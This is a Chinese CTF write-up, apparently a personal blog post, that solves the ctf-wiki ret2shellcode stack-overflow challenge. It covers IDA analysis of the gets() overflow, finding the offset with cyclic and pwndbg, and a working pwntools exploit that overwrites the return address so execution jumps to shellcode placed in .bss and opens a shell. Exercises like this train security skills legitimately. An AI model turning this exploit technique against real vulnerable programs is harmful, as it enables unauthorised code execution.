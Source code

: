```yaml
---
layout: post
title: CTF-PWN实例（ret2shellcode）
categories: 
 - CTF
 - PWN
 - 二进制
permalink: /pwn/0
nocomments: true  # Disable the comment box. This is EasyBook feature
typora-root-url: ..\_site
---
```


# CTF-PWN实例（ret2shellcode）

## 题目地址：

https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/ret2shellcode

## 程序保护：

```shell
 	Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

未开启任何保护。但是第一次写实例，简单介绍一下这几个保护。

首先Stack保护措施，如果开启了，会在栈中返回地址前放一个随机值，如果被覆盖程序就会报错退出。

NX保护是no execution，如果 开启了就不能让IP寄存器指向堆和栈。等同于不能执行推或栈中的指令。

## 解题：

### 一、IDA分析程序溢出点

IDA分析main函数：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No system for you this time !!!");
  gets((char *)&v4);
  strncpy(buf2, (const char *)&v4, 0x64u);
  printf("bye bye ~");
  return 0;
}
```

发现使用了gets()函数，gets()函数会不断地向v4中写入，只有遇到\00才会停止，这样在栈中就会溢出覆盖掉返回地址。

### 二、cyclic和pwndbg判断偏移量

```shell
$ cyclic 200
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
$ gdb ret2shellcode
........
pwndbg> r
Starting program: /home/dtuncle/ctf-challenges/pwn/stackoverflow/ret2shellcode/ret2shellcode-example/ret2shellcode 
No system for you this time !!!
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
bye bye ~
Program received signal SIGSEGV, Segmentation fault.
0x62616164 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
────────────────────────────────────[ REGISTERS ]────────────────────────────────────
 EAX  0x0
 EBX  0x0
 ECX  0xffffffff
 EDX  0xf7fb6870 (_IO_stdfile_1_lock) ◂— 0
 EDI  0xf7fb5000 (_GLOBAL_OFFSET_TABLE_) ◂— mov    al, 0x1d /* 0x1b1db0 */
 ESI  0xf7fb5000 (_GLOBAL_OFFSET_TABLE_) ◂— mov    al, 0x1d /* 0x1b1db0 */
 EBP  0x62616163 ('caab')
 ESP  0xffffcfa0 ◂— 'eaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
 EIP  0x62616164 ('daab')
─────────────────────────────────────[ DISASM ]──────────────────────────────────────
Invalid address 0x62616164

──────────────────────────────────────[ STACK ]──────────────────────────────────────
00:0000│ esp  0xffffcfa0 ◂— 'eaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
01:0004│      0xffffcfa4 ◂— 'faabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
02:0008│      0xffffcfa8 ◂— 'gaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
03:000c│      0xffffcfac ◂— 'haabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
04:0010│      0xffffcfb0 ◂— 'iaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
05:0014│      0xffffcfb4 ◂— 'jaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
06:0018│      0xffffcfb8 ◂— 'kaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
07:001c│      0xffffcfbc ◂— 'laabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
────────────────────────────────────[ BACKTRACE ]────────────────────────────────────
 ► f 0 62616164
   f 1 62616165
   f 2 62616166
   f 3 62616167
   f 4 62616168
   f 5 62616169
   f 6 6261616a
   f 7 6261616b
   f 8 6261616c
   f 9 6261616d
   f 10 6261616e
Program received signal SIGSEGV (fault address 0x62616164)
pwndbg> quit
$ cyclic -l 0x62616164
112
```

这样就可以直接定位到偏移量为112.

### 三、编写EXP

思路：

首先这里能直接覆盖返回地址，然后就让返回地址被覆盖成shellcode地址。重点在于shellcode地址，这里搜索函数名没有system()所以不能直接利用程序内部的函数。这里就需要 写入shellcode，前面保护机制中NX是关闭的，所以我们可以选择将shellcode写入到V4变量的内，也是写入到.bss段同时也能叫写入栈。然后让返回地址指向shellcode。

先用ida确认.bss段的地址（.bss一般程序会分陪比较大空间不用担心超出空间）

v4在.bss段的地址

```c
.bss:0804A080                 public buf2
.bss:0804A080 ; char buf2[100]
.bss:0804A080 buf2            db 64h dup(?)           ; DATA XREF: main+7B\u8o
.bss:0804A080 _bss            ends
```

exp代码：

```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *

p = process('./ret2shellcode')

p.sendline(asm(shellcraft.sh()).ljust(112,'a')+p32(0x0804a080)) #这里是将shellcode和a填充到栈中，总长度为112

p.interactive()
```

## 总结

PWN两大难点：确定溢出点，如何利用。这里主要注意linxu下的一些保护措施，这里只介绍了stack和nx。其他的遇到后会介绍，并且对应保护措施开启后如何利用写exp。然后就是简单的用cyclic确认偏移量。